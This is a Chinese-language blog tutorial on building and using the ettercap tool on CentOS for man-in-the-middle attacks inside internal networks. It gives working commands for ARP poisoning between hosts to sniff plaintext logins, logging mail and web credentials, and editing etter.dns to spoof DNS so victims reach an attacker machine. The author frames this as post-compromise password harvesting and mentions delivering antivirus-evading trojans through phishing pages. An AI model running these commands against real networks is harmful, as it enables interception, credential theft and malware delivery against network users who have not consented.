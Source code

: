 [TOC]

# [宝刀未老之 ettercap 基础使用 一](https://klionsec.github.io/2017/10/25/ettercap/)

2017-10-25 [ETTERCAP](https://klionsec.github.io/categories/ettercap/)



## 0x01 关于ettercap

```
ettercap 确实已经非常老了,也确实是那个时代的经典,而且差不多三四年这个项目也都没再更新过了对于一些防护并不是特别好的内网,依然非常实用,千万不要觉得工具老就没有它的应用场地,那样你就真的错了,如果真是这样,就不会有这么多的二次深度开发了大家可能也发现了,像这类的工具我基本都是在模拟真实的生产机器环境上编译安装的具体原因大家想必都很清楚,像这类基于二层的arp嗅探是没法直接在远程做的,毕竟不是直接处在目标的vpn内网中socks代理再牛逼,它也只是个基于端口的四层代理,并不是vpn,所以,是没法直接在本地嗅远程的arp的,至于GRE隧道,咱们抽空再另说话不多讲,直奔今天的主题,ettercap基础使用,注意,此次仅仅是基础使用
```



## 0x02 开启本地的路由转发

```
# echo 1 > /proc/sys/net/ipv4/ip_forward# cat /proc/sys/net/ipv4/ip_forward
```



## 0x03 基础演示环境

```
CentOS release 6.9 (Final)  x86-64 ip: 192.168.3.4  接口名称: eth2  ettercap所在机器win2008r2 			   ip: 192.168.3.23 win7cn				   ip: 192.168.3.8
```





## 0x04 暂以centos 6.8 x86_64为例,编译安装 ettercap 0.8.2

```
# yum groupinstall "Development tools" -y# yum install cmake ncurses ncurses-devel openssl openssl-devel gcc-c++ flex bison gtk2 gtk2-devel -y# tar xf ettercap-0.8.2.tar.gz# cd ettercap-0.8.2/bundled_deps/# ls
```



```
# cd check/# tar xf check-0.9.14.tar.gz# cd check-0.9.14# ./configure && make && make install# echo $? && cd ../../
# cd curl/# tar xf curl-7.41.0.tar.gz# cd curl-7.41.0# ./configure && make && make install# echo $? && cd ../../
# cd libnet/# tar xf libnet-1.1.6.tar.gz# cd libnet-1.1.6# ./configure && make && make install# echo $? && cd ../../
# cd luajit/# tar xf LuaJIT-2.0.3.tar.gz# cd LuaJIT-2.0.3# make && make install# echo $? && cd ../../
# tar xf libpcap-1.5.3.tar.gz# cd libpcap-1.5.3# ./configure && make && make install# echo $? && cd ../../
# cat INSTALL# mkdir build# cd build/# cmake ../# make && make install# echo $? && cd
```

## 0x05 ettercap安装后的默认配置文件位置如下,修改配置文件,让其以root权限身份运行,一般嗅探都是在提权成功以后的动作,这样能嗅到的东西会更多一些

```
# cd /etc/ettercap/# vi /etc/ettercap/etter.conf ec_uid = 0                 ec_gid = 0
```



## 0x06 ettercap默认规则 [filter] 目录

```
# ll /usr/local/share/ettercap/
```



![img](ImageAssets/ettercap-filter.png)

## 0x07 装完以后先简单测试下ettercap是否真正已经可用,尝试嗅下3.8到3.23之间的明文数据

```
# ettercap -Tqi eth2 -M arp:remote /192.168.3.8/ /192.168.3.23/
```



![img](ImageAssets/ettercap-rest.png)

## 0x08 ettercap 选项功能简要说明

```
-M 进行中间人攻击,可自行指定用什么类型的中间人,如,arp,dhcp,icmp...-o 不嗅探数据,单单只进行中间人欺骗-T 建议使用文本模式,一般实战中基本是不会有图形界面给你的-q 安静模式,减少输出-D 把ettercap作为一个系统服务来运行,意思就是让它在后台跑,比较方便-w 把监听的数据写到指定的pcap文件中 -L 将所有流量写到指定的日志文件中-l 被动记录-i 指定要用于嗅探的网卡接口-F 导入自定义数据包过滤规则文件-P 导入插件,增强中间人攻击-p 不启用网卡混杂模式,只嗅当前机器的各类明文数据
```



## 0x09 关于ettercap的其它更多详情,请自行参考工具自身帮助

```
# man ettercap# ettercap -P list  查看ettercap内置的所有插件
```



![img](ImageAssets/ettercap-local-plugins.png)

## 0x10 只嗅探本机指定端口上的明文数据,如,各类web管理登陆密码[80,8080],如果是当前机器是个邮件服务器,无疑是极好的,起码不用再自己苦逼的到处搜集密码了,直接守住这儿慢慢抓密码就好了,在某些内网中通过这种方式来搜集密码,还是非常可行的

```
# ettercap -i eth2 -T -q -p -l local //25,80,110,143,8080 # etterlog local.eci
```



![img](ImageAssets/ettercap-local-sniff.png)
![img](ImageAssets/ettercap-local-sniff_res.png)

## 0x011 只嗅探指定机器之间的明文通信数据

嗅探这个ip段范围和网关之间的通信数据,其实说白点就是想嗅探目标机器在一些公网站点上登陆的明文账号密码

```
# ettercap -T -q -i eth2  -L webadmin -M arp:remote /192.168.3.1/ /192.168.3.2-25/    # etterlog webadmin.eci
```



![img](ImageAssets/arp_sniffer_common.png)

嗅探3.220-251和3.3这台机器之间的所有明文通信数据,主要想快速拿到内网服务器的账号密码,所以,你实际挑内网机器的时候,最好有针对性,一旦拿到密码立马就跑路,这工具动静儿太大

```
# ettercap -Tq -i eth2  -L mail -M arp:remote /192.168.3.3/ /192.168.3.220-251/# etterlog mail.eci
```



在目标内网中利用dns欺骗来针对性钓鱼挂马,马要免杀,页面也逼真,否则很容易被发现

```
# vi /etc/ettercap/etter.dns  # microsoft sucks ;)找到这行  # redirect it to www.linux.org    demlution.com       A   192.168.3.23    www.demlution.com   A   192.168.3.23# ettercap -Tq -i eth2 -P dns_spoof  -M arp /192.168.3.1/ /192.168.3.3-100/
```



![img](ImageAssets/ettercap-dns2_res.png)
![img](ImageAssets/ettercap-dns.png)
![img](ImageAssets/ettercap-dns2.png)

## 0x12 当然,ettercap绝非远远就这么点儿功用,来日方长,关于定制规则脚本以及其它的各类高级应用,考虑篇幅,我们后续再慢慢说

## 0x13 提前先来了解几个 ettercap 的简单规则脚本语法

```
search(where,what) 从字符串where中查找what，若找到则返回trueregex(where,regex) 从字符串where中匹配正则表达式regex，若找到则返回truereplace(what,with) 把字符串what替换成字符串withlog(what,where)    把字符串what记录到where文件中msg(message) 	   在屏幕上显示出字符串messageexit() 		   退出
```



待续ing…